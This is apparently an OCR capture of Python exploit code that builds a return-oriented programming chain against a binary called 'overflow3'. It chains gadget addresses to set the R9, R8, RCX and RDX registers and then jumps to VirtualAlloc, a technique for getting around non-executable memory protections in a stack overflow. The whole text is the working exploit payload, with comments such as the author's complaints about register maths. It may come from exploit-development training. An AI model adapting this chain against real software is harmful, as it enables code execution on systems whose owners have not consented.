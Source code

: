 ```python
payload += struct.pack("<Q", 0x140000018)  # 0x40
payload += struct.pack("<Q", 0x140007678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", 0x140001b58)  # push rax; pop rbx; pop rsi; pop rdi; ret;
payload += b"\x90" * 16 
payload += struct.pack("<Q", 0x140007CA5)  # mov r9, rbx <see more below>

"""
0000000140007CA5 | 49:89D9                  | mov r9,rbx                           |
0000000140007CA8 | E8 D3FCFFFF              | call overflow3.140007980             |
0000000140007CAD | 48:98                    | cdqe                                 |
0000000140007CAF | 48:83C4 48               | add rsp,48                           |
0000000140007CB3 | 5B                       | pop rbx                              |
0000000140007CB4 | 5E                       | pop rsi                              |
0000000140007CB5 | 5F                       | pop rdi                              | 
0000000140007CB6 | 5D                       | pop rbp                              |
0000000140007CB7 | C3                       | ret                                  |
"""
payload += b"\x90" * 72 
payload += b"\x90" * 32 

#r9 register should now hold the value 0x40 (I hate this register)
###########################################

#r8 ROP gadgets (this works but RDX MUST be 0x3000)

payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400095AC)  # place 3000 on stack --> 0x00000001400095AC = 0x3000
payload += struct.pack("<Q", 0x140007678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", 0x140006995)  # 0x0000000140006995: add edx, eax; mov eax, edx; ret; 

payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400095A0)  # place 3000 - 0xC on stack 

payload += struct.pack("<Q", 0x140002410)  # 0000000140002410


#rop gadget(s) for setting the RCX register value
###################################################
payload += struct.pack("<Q", 0x14000276f)  # xor ecx, ecx; mov rax, r9; ret; 
# rcx should now be set to 0
###################################################

#rop gadgets for setting the RDX register value
#####################################################
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001243)  # mov edx, 2; xor ecx, ecx; call rax; 
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400000AC)  # place 1000 on stack --> 0x00000001400000AC = 0x1000
payload += struct.pack("<Q", 0x140007678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", 0x140006995)  # add edx, eax; mov eax, edx; ret; 
# RDX should now be set to 1002 (ideally 1000 but I got tired of mathing :D )
######################################################



#VirtualAlloc !!!
######################################################
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x14000D288)  # virtualalloc import address
payload += struct.pack("<Q", 0x140001fb3)  # jmp qword ptr [rax]; 

######################################################
```